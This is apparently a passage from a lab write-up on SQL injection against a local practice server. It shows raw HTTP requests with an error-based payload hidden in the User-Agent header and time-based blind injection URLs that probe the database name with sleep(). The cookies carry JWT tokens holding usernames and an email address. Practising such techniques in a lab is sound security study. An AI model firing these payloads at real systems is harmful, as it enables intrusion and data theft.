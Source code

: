 ```php
Cookie: vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyMSwidXNlcm5hbWUiOiIxODc2MDg3NzIwOCIsImV4cCI6MTcyNTM0NDg3NiwiZW1haWwiOiJ5b3V6ZTI3QG91dGxvb2suY29tIn0.9mB9wZ9k4CA77RGqWxPtpWgF8LVFfmUGP68teio7ul4; JSESSIONID=7d026acd-57a2-4b07-860a-ce628120e112; PHPSESSID=lb61ndu0b64v6tieh37r233947
Upgrade-Insecure-Requests: 1
Priority: u=0, i

uname=a&passwd=a&submit=Submit
```

```php
POST /ua.php HTTP/1.1
Host: 192.168.100.40:18464
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0' or extractvalue(1,concat(0x7e,(select database()))),1,1)#
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://192.168.100.40:18464
DNT: 1
Sec-GPC: 1
Connection: close
Referer: http://192.168.100.40:18464/ua.php
Cookie: vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyMywidXNlcm5hbWUiOiJ6aGFuZ3lvdXplIiwiZXhwIjoxNzI1MzY1MDExLCJlbWFpbCI6InpoYW5neW91emUifQ.7jK0DTiWdUk_3Ys_EhZ_RrMPG1qyyAlphkv4wruHQtY
Upgrade-Insecure-Requests: 1
Priority: u=0, i

uname=admin&passwd=admin&submit=Submit
```

![image-20240902202416-m7cdnnx](assets/image-20240902202416-m7cdnnx.png)

# [Time Blind Inject](http://192.168.100.40:18464/time.php?id=1)

http://192.168.100.40:18464/time.php?id=1%27%20and%20%20sleep(5)%23     发现可以使用sleep（）

![image-20240902203226-8korl2i](assets/image-20240902203226-8korl2i.png)

http://192.168.100.40:18464/time.php?id=1%27%20and%20if(length(database())=8,sleep(5),1)%20%23     确定数据库名长度为8

![image-20240902203142-855eq83](assets/image-20240902203142-855eq83.png)